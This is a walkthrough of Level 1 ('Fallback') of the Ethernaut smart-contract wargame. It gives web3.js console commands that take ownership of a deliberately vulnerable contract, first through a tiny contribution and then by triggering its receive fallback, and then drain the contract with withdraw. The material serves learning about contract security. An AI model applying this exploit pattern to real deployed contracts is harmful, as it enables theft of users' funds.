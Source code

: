 # Level 1: Fallback

This is the level 1 of Ethernaut

## Hack

Given contract:

```
Fallback.sol
```

and `contract` methods & `web3.js` functions injected into console.

We, the `player` address, have to somehow become `owner` of the contract & withdraw all amount from contract.

Key parts to notice are `contribute` function and `receive` fallback function of contract.

From the constructor, it can be seen that `owner`'s contribution is 1000 eth. One way to become `owner` is to send more than current `owner`'s contributed eth to `contribute` function to be owner. Let's check `owner`'s contributed eth using console:

```javascript
ownerAddr = await contract.owner();
await contract
  .contributions("0x9CB391dbcD447E645D6Cb55dE6ca23164130D008")
  .then((v) => v.toString());

// Output '1000000000000000000000'
```

But, that'd be too much eth! We have nowhere near it.

Take a look at `receive` fallback function though. It also has code to change ownerships. According to what code is there, we can claim ownership if:

- Contract has a non-zero contribution from us (i.e. `player`).
- Then, we send the contract a non-zero eth amount.

`player` address has zero contribution to contract currently, so let's satisfy first condition by sending a **less than 0.001** eth (required acc. to code):

```javascript
await contract.contribute.sendTransaction({
  from: player,
  value: toWei("0.0009"),
});
```

Now we have a non-zero contribution that you can verify by:

```javascript
await contract.getContribution().then((v) => v.toString());
```

And now send any non-zero amount of ether to contract:

```javascript
await sendTransaction({
  from: player,
  to: contract.address,
  value: toWei("0.000001"),
});
```

And now we claimed ownership of the contract!
You can verify that `owner` is same address as `player` by:

```javascript
await contract.owner();
// Output: Same as player address
```

And for the final blow, withdraw all of contract's balance:

```javascript
await contract.withdraw();
```

Done.
